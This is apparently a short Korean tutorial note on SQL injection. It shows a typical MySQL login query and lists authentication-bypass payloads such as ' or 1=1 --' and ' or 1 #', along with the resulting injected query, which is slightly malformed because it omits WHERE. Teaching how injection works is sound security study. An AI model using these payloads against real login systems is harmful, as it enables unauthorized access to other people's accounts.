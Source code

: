 # GENERAL SQL injection
<br><br><br><br>
> ( ) <- 강조 ( ) 기호는 제외

<br><br><br><br>

__Mysql 대표적인 login query__
***

~~~~sql

SELECT * FROM member WHERE userId = 'input id' and userPw = 'input pw';

-> 입력받은 id , pw 체크

SELECT * FROM member WHERE userId = 'input id';

-> 입력받은 id 만 체크한 후 서버 파일에서 입력받은 id 와 Mysql 결과의 비밀번호와 비교

~~~~
<br><br><br>

__Mysql Login Sql injection__
***

~~~~sql

' or 1=1 --'
' or 1 #'
'
입력 결과

SELECT * FROM member userId = '' or 1=1 --'' and userPw = '';

->1=1 or 1 참이 되는 값
~~~~

<br><br>
